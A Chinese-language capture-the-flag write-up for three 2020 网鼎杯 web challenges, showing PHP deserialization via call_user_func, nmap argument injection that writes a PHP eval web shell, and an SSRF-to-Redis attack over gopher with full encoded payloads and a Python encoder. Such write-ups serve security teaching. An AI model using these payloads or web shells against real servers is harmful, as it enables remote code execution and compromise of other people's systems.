


# 网鼎杯 2020

## Web

### \[朱雀组]phpweb

查看源代码可以发现 form 表单存在注入点，默认执行函数为 `date(Y-m-d h:i:s a)` 。

```html
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</form>
```

尝试使用 `system()` 函数直接进行注入，构造 payload `func=system&p=cat /flag` 发现 `system()` 函数被过滤了。

<figure><figcaption></figcaption></figure>

尝试通过 `file_get_contents()` 函数获取 `index.php` 的内容查看被过滤关键字，构造 payload `func=file_get_contents&p=index.php` 可以得到。

<figure><figcaption></figcaption></figure>

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
​
    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

分析上述代码可以发现存在类 `Test` ，并且黑名单中并没有 `unserialize()` 函数，因此可以尝试通过反序列化来解决，先进行序列化的构造。

```php
<?php
    class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
​
    $a = new Test();
    echo serialize($a);
    // O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}`

<figure><figcaption></figcaption></figure>

发现 `flag` 并没有如愿以偿地出现在根目录，因此通过 `find` 命令与上面同理构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}` 。

<figure><figcaption></figcaption></figure>

排除开系统文件可以发现 `/tmp/flagoefiu4r93` 文件，通过构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}` 就得到 flag 了。

### \[朱雀组]Nmap

先随便输入 `127.0.0.1` 可以得到回显并且发现 Param `f=6f859` 。

构造 Payload 如下

```
f=6f858
```

可以得到报错回显如下

```
Warning: simplexml_load_file(): I/O warning : failed to load external entity "xml/6f858" in /var/www/html/result.php on line 23
```

可以推断出是 xml 输出的，假设当前表达式为

```php
<?php system('nmap '. $_POST['host'] .' -oX')
```

可以通过 `-oG` 输出到文件中，构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.php
```

回显 `Hacker...` ，说明存在一定的过滤，试试改成 `phtml` 。

构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.phtml
```

回显 `Host maybe down` ，说明传入成功，但是并不能访问 `shell.phtml` ，通过查看源代码才发现还需要进行单引号的绕过（存在 `escapeshellarg()` 和 `escapeshellcmd()` ），因此需要修改 Payload 如下

```
host='<?=eval($_POST[1]);?> -oG shell.phtml '
```

结尾的空格是为了防止 `escapeshellcmd()` 函数使得文件名变成 `shell.phtml\\` 。

通过蚁剑一把梭就可以得到 flag 了。

### \[玄武组]SSRF Me

#### 题目源码

```php
// index.php
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}

function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(!empty($url)){
        safe_request_url($url);
    }
}
else{
    highlight_file(__FILE__);
}
// Please visit hint.php locally.
?>
```

#### 解题过程

在 safe\_request\_url 函数中，接受了 URL 参数后调用 check\_inner\_ip 函数判断是否是内网IP，不是的话才会执行 safe\_request\_url 函数下方的 curl 。而 check\_inner\_ip 函数指定 URL 必须为 `http://, https://, gopher://, dict://` 这几种协议开头，后通过 parse\_url 函数进行解析，而这里检测的 IP 段包括 `127.0.0, 10.0.0, 172.16.0, 192.168.0` 这几个网段。因此这里绕过有两种方式：

1. 绕过 parse\_url 函数
2. 绕过被检测的 IP 段

第一种方法即是在构造 Payload 时使得该函数无法正常解析 URL，即 `http:///` 等。第二种方法即是使用 `0.0.0.0` 来进行绕过。通过构造 Payload 如下

```
?url=http:///127.0.0.1/hint.php
```

即可得到 hint.php 的源码如下

```
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```

可以得知 Redis 的密码为 root ，开始尝试 Redis SSRF ，先通过在本地抓包构造出 Payload ，再通过 gopher 发送。

```shell
$ redis-cli -h 127.0.0.1 -p 6379
127.0.0.1:6379> auth root
(error) ERR AUTH <password> called without any password configured for the default user. Are you sure your configuration is correct?
127.0.0.1:6379> config set dir /var/www/html
(error) ERR CONFIG SET failed (possibly related to argument 'dir') - can't set protected config
127.0.0.1:6379> config set dbfilename webshell.php
(error) ERR CONFIG SET failed (possibly related to argument 'dbfilename') - can't set protected config
127.0.0.1:6379> set -.- "<?php @eval($_POST[1]); ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> 
127.0.0.1:6379> 
127.0.0.1:6379> 
```

通过 WireShark 抓包（右键->Follow->TCP stream），并过滤掉服务端返回的值并以原始数据显示后即可得到 Payload 。

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a
2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431330d0a2f7661722f7777772f68746d6c0d0a
2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a2431320d0a7765627368656c6c2e7068700d0a
2a330d0a24330d0a7365740d0a24330d0a2d2e2d0d0a2432360d0a3c3f70687020406576616c28245f504f53545b315d293b203f3e0d0a
2a310d0a24340d0a736176650d0a
```

通过编写脚本转为 Gopher 协议数据

```python
payload = "2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431330d0a2f7661722f7777772f68746d6c0d0a2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a2431320d0a7765627368656c6c2e7068700d0a2a330d0a24330d0a7365740d0a24330d0a2d2e2d0d0a2432360d0a3c3f70687020406576616c28245f504f53545b315d293b203f3e0d0a2a310d0a24340d0a736176650d0a"
for i in range(0, len(payload), 2):
    print("%25" + payload[i:i + 2], end="")
# %252a%2532%250d%250a%2524%2534%250d%250a%2561%2575%2574%2568%250d%250a%2524%2534%250d%250a%2572%256f%256f%2574%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%2564%2569%2572%250d%250a%2524%2531%2533%250d%250a%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2531%2530%250d%250a%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%250d%250a%2524%2531%2532%250d%250a%2577%2565%2562%2573%2568%2565%256c%256c%252e%2570%2568%2570%250d%250a%252a%2533%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%252d%252e%252d%250d%250a%2524%2532%2536%250d%250a%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%2520%253f%253e%250d%250a%252a%2531%250d%250a%2524%2534%250d%250a%2573%2561%2576%2565%250d%250a
```

通过构造 Payload 如下

```
?url=gopher://0.0.0.0:6379/_%252a%2532%250d%250a%2524%2534%250d%250a%2561%2575%2574%2568%250d%250a%2524%2534%250d%250a%2572%256f%256f%2574%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%2564%2569%2572%250d%250a%2524%2531%2533%250d%250a%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2531%2530%250d%250a%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%250d%250a%2524%2531%2532%250d%250a%2577%2565%2562%2573%2568%2565%256c%256c%252e%2570%2568%2570%250d%250a%252a%2533%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%252d%252e%252d%250d%250a%2524%2532%2536%250d%250a%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%2520%253f%253e%250d%250a%252a%2531%250d%250a%2524%2534%250d%250a%2573%2561%2576%2565%250d%250a
```

访问后虽然会显示 504 ，但通过访问 `webshell.php` 可以发现 Shell 已经成功上传，就可以得到 flag 了。

<figure><figcaption></figcaption></figure>
